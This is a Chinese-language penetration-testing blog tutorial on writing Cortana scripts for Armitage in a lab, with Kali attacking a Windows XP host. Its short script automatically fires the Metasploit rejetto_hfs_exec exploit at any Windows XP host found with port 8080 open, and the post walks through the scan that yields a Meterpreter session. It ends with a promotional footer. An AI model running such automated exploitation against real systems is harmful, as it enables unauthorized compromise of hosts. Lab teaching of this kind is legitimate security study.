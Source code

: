 ```yaml
---
layout: post
category: curleyg-code-hack
title: Armitage脚本编写
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Armitage脚本编写
lock: need
---
```


# Armitage脚本编写

Cortana是一种脚本语言，在Armitage中用来创建攻击向量。

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

### 编写Cortana脚本8080.cna

```
on service_add_8080{
    println("Hacking a Host running $1 (" . host_os($1) . ")");
    if(host_os($1) eq "Windows XP"){
        exploit("windows/http/rejetto_hfs_exec", $1, %(RPORT => "8080"));
    }
}
```

当使用Nmap或者MSF扫描发现目标的8080端口处于开放状态时，脚本就会执行。这段脚本会交叉目标系统是否为Windows XP；如果结果为真，Cortana就会自动利用rejetto_hfs_exec渗透模块攻击目标的8080端口。

在这段脚本中，`$1指明主机的IP地址；println函数输出打印字符和变量；host_os作为一个Cortana中编写的函数可以返回主机的操作系统类型；函数exploit在参数$`1指定的IP地址启动一个渗透模块；%表示为渗透模块设置的选项，如果服务运行在不同的端口或者需要其他细节时，可以通过%设置这些渗透模块的选项；service_add_8080指定了当在特定客户端发现开放的8080端口时触发的事件。

### 加载8080.cna脚本

首先，输入命令armitage打开Armitage，接着依次单击Armitage->Scripts

![img](https://img-blog.csdnimg.cn/20190128205219905.png)

结果如下：

![img](https://img-blog.csdnimg.cn/2019012820523796.png)

多了一个Scripts面板。

这里我们单击Load按钮：

![img](https://img-blog.csdnimg.cn/20190128205256597.png)

弹出对话框，选择8080.cna然后点击打开按钮：

![img](https://img-blog.csdnimg.cn/20190128205600498.png)

之后选中8080.cna单击Console按钮

![img](https://img-blog.csdnimg.cn/20190128205614219.png)

单击Console后如下图所示：

![img](https://img-blog.csdnimg.cn/2019012821054976.png)

打开了Cortana命令行，这里我们输入help查看下帮助菜单：

![img](https://img-blog.csdnimg.cn/20190128210605131.png)

命令说明如下：

```
cortana> help   

Commands
--------
askoff #参数为cna脚本，关闭脚本交互功能
askon #参数为cna脚本，开启脚本交互功能
help #查看帮助信息
load #参数为路径，加载Cortana脚本
logoff #参数为cna脚本，关闭脚本日志记录
logon #参数为cna脚本，开启脚本日志记录
ls #列出加载的脚本
proff #参数为cna脚本，关闭脚本分析器
profile #参数为cna脚本，查看脚本简介
pron #参数为cna脚本，开启脚本分析器
reload #参数为cna脚本，重新加载脚本
troff #参数为cna脚本，关闭脚本跟踪功能
tron #参数为cna脚本，开启脚本跟踪功能
unload #参数为cna脚本，卸载脚本
```

接下来，我们通过logon开启脚本日志

![img](https://img-blog.csdnimg.cn/20190128210757779.png)

### 扫描目标主机

依次单击Hosts->Nmap Scan->Intense Scan

![img](https://img-blog.csdnimg.cn/20190128210825352.png)

弹出对话框输出扫描的目标主机范围：

![img](https://img-blog.csdnimg.cn/20190128210841856.png)

![img](https://img-blog.csdnimg.cn/20190128210850352.png)

开始扫描，扫描完成之后，如果目标主机中有打开8080端口，并且操作系统是Windows XP，同时，Windows XP 8080端口上运行的是HFS 2.3。那么，在Cortana命令行下就会获取到目标主机的Meterpreter权限。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
